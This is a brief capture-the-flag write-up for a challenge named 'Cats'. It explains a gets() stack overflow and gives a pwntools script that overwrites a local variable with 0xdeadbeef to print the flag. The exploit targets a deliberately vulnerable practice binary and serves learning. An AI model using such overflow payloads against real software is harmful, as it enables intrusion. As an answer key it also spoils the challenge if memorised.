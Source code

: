 # Cats

> I had to hide my secret so any MGCI cat-haters will never find it! Do you like cats?

## Static Analysis

Reading the source code, we can immediately spot an obvious buffer overflow via the `gets(hmm)` function.

The flag is printed when the variable `trustNoOne` is set to `0xdeadbeef`, despite it being initialized with a value of 0.

We can achieve this by simply overflowing the `trustNoOne` buffer with our buffer overflow and get the flag.


## Solution

```py
from pwn import *

p = process("./cats_KIFg4OV")
p.sendline(b"A"*60 + p32(0xdeadbeef))
p.interactive()
```



